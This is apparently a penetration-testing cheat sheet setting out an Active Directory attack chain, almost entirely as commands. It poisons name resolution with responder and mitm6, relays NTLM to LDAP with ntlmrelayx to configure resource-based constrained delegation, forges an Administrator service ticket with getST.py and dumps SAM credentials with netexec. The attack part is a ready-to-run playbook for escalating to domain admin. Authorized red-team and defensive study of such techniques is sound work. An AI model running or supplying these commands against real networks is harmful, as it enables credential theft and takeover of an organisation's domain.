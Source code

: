 # Quickwin - NTLM Relay to LDAP with RBCD

## Recon

```
nmap -sS -sV -p- --min-rate 10000 -oA full_scan <range>
nmap -sU -sV --top-ports 200 -oA udp_scan <range>
```

## IPv6 DNS Takeover + LLMNR/NBT-NS poisoning with responder

- `-d` enable the wpad module
- `-w` enable the dhcp module

```
responder -I <interface> -wd
mitm6 -d <domain>
```

### NTLM Relay to LDAP

- `--delegate-access` instruct ntlmrelayx to automatically configure Resource-Based Constrained Delegation (RBCD) when a machine account is successfully relayed to LDAP
- `--no-smb-server` disable the internal smb server of ntlmrelayx

```
ntlmrelayx -t ldap://dc.example.com:389 --delegate-access --no-smb-server
```

### Request a Service Ticket and escalade to DA

```
getST.py -spn 'cifs/<target_rbcd>.example.com' -impersonate Administrator -dc-ip '<dc_ip>' '<example.com>/<machine_account_created>$:<password'
KRB5CCNAME=Administrator.ccache netexec smb <ip_target_rbcd> --use-kcache --sam
```

## Sources
- https://xbz0n.sh/blog/from-zero-creds-to-ea



